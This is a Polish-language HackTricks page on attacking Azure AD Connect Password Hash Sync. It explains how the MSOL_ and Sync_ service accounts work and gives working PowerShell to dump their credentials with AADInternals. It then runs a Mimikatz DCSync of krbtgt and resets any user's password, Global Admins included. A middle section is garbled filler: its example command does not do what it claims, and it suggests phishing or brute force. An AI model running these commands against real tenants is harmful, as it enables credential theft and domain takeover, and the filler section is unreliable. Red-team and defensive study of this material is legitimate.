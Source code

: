 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** to jedna z metod logowania używana do osiągnięcia hybrydowej tożsamości. **Azure AD Connect** synchronizuje hash, hasha hasła użytkownika z lokalnej instancji Active Directory do chmurowej instancji Azure AD.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Jest to **najczęściej stosowana metoda** przez firmy do synchronizacji lokalnego AD z Azure AD.

Wszystkie **użytkownicy** i **hash haszy haseł** są synchronizowane z lokalnego AD do Azure AD. Jednakże, **hasła w postaci jawnej** ani **oryginalne** **hasze** nie są wysyłane do Azure AD.\
Ponadto, **wbudowane** grupy zabezpieczeń (jak administratorzy domeny...) **nie są synchronizowane** do Azure AD.

**Synchronizacja haszy** odbywa się co **2 minuty**. Jednakże, domyślnie, **wygaśnięcie hasła** i **wygaśnięcie konta** **nie są synchronizowane** w Azure AD. Tak więc, użytkownik, którego **lokalne hasło wygasło** (nie zostało zmienione) może nadal **uzyskiwać dostęp do zasobów Azure** używając starego hasła.

Gdy lokalny użytkownik chce uzyskać dostęp do zasobu Azure, **uwierzytelnianie odbywa się w Azure AD**.

**PHS** jest wymagane dla funkcji takich jak **Identity Protection** i AAD Domain Services.

## Pivoting

Gdy PHS jest skonfigurowane, niektóre **uprzywilejowane konta** są automatycznie **tworzone**:

* Konto **`MSOL_<installationID>`** jest automatycznie tworzone w lokalnym AD. To konto ma przypisaną rolę **Directory Synchronization Accounts** (zobacz [dokumentację](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), co oznacza, że ma **uprawnienia replikacji (DCSync) w lokalnym AD**.
* Konto **`Sync_<name of on-prem ADConnect Server>_installationID`** jest tworzone w Azure AD. To konto może **resetować hasło DOWOLNEGO użytkownika** (zsynchronizowanego lub tylko w chmurze) w Azure AD.

Hasła dwóch poprzednich uprzywilejowanych kont są **przechowywane na serwerze SQL** na serwerze, gdzie **Azure AD Connect jest zainstalowany.** Administratorzy mogą wyodrębnić hasła tych uprzywilejowanych użytkowników w postaci jawnej.\
Baza danych znajduje się w `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Możliwe jest wyodrębnienie konfiguracji z jednej z tabel, z których jedna jest zaszyfrowana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Zaszyfrowana konfiguracja** jest zaszyfrowana za pomocą **DPAPI** i zawiera **hasła użytkownika `MSOL_*`** w lokalnym AD oraz hasło **Sync\_\*** w AzureAD. Dlatego, kompromitując te dane, możliwe jest privesc do AD i do AzureAD.

Możesz znaleźć [pełny przegląd, jak te dane uwierzytelniające są przechowywane i odszyfrowywane w tej prezentacji](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Znalezienie **serwera Azure AD connect**

Jeśli **serwer, na którym zainstalowany jest Azure AD connect** jest dołączony do domeny (zalecane w dokumentacji), możliwe jest jego znalezienie za pomocą:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Wykorzystywanie MSOL\_\*

### Wprowadzenie

W tej sekcji omówimy, jak można wykorzystać MSOL\_\* do przeprowadzenia ruchu lateralnego w środowisku hybrydowym Azure AD.

### Wymagania

- Uprawnienia administracyjne do Azure AD
- Dostęp do konta z uprawnieniami MSOL\_\*

### Kroki

1. **Zidentyfikuj konta MSOL\_\***: Użyj narzędzi takich jak PowerShell, aby zidentyfikować konta MSOL\_\* w środowisku.
2. **Uzyskaj dostęp do konta MSOL\_\***: Wykorzystaj techniki takie jak phishing lub brute force, aby uzyskać dostęp do konta MSOL\_\*.
3. **Wykorzystaj uprawnienia konta MSOL\_\***: Użyj uzyskanych uprawnień do przeprowadzenia ruchu lateralnego i eskalacji uprawnień w środowisku.

### Przykład

```powershell
Get-MsolUser -All | Where-Object {$_.UserPrincipalName -like "*@domain.com"}
```

Powyższe polecenie PowerShell identyfikuje wszystkie konta MSOL\_\* w domenie.

### Podsumowanie

Wykorzystanie kont MSOL\_\* może być skuteczną metodą na przeprowadzenie ruchu lateralnego w środowisku hybrydowym Azure AD.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Możesz również użyć [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) aby uzyskać te poświadczenia.
{% endhint %}

### Wykorzystywanie Sync\_\*

Kompromitując konto **`Sync_*`** możliwe jest **zresetowanie hasła** dowolnego użytkownika (w tym Globalnych Administratorów)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Jest również możliwe **zmodyfikowanie haseł tylko użytkowników chmurowych** (nawet jeśli jest to nieoczekiwane)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Możliwe jest również zrzucenie hasła tego użytkownika.

{% hint style="danger" %}
Inną opcją byłoby **przypisanie uprzywilejowanych uprawnień do głównego serwisu**, co użytkownik **Sync** ma **uprawnienia** do zrobienia, a następnie **dostęp do tego głównego serwisu** jako sposób na privesc.
{% endhint %}

### Seamless SSO

Możliwe jest użycie Seamless SSO z PHS, które jest podatne na inne nadużycia. Sprawdź to w:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
